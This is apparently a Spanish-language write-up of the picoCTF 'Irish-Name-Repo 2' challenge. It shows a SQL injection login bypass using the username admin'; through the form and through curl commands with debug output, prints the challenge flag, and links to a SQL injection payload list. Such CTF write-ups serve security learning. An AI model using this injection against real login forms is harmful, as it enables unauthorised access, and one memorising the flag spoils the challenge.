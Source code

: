 # Irish-Name-Repo 2
## Descripcipción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649
## Pistas
- The password is being filtered.
## Solucion
```
se evita la palabra OR para evitar ser detectados, utilizando admin';

username: admin';
password: lkklj
SQL query: SELECT * FROM users WHERE name='admin';' AND password='lkklj'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_aee925db}

-----------------------------------------------------------------------------
								SOLUCIÓN POR CONSOLA
----------------------------------------------------------------------------
rojiblanca-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=violeta&password=hola"
rojiblanca-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=violeta&password=hola"
<h1>Login failed.</h1>rojiblanca-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin';&password=hola&debug=1"
<pre>username: admin';
password: hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_aee925db}</p>rojiblanca-picoctf@webshell:~$ 
```
## Bandera
picoCTF{m0R3_SQL_plz_aee925db}
## Notas adicionales
El usuario ingresa datos y altera la entrada
## Referencias
https://github.com/payloadbox/sql-injection-payload-list
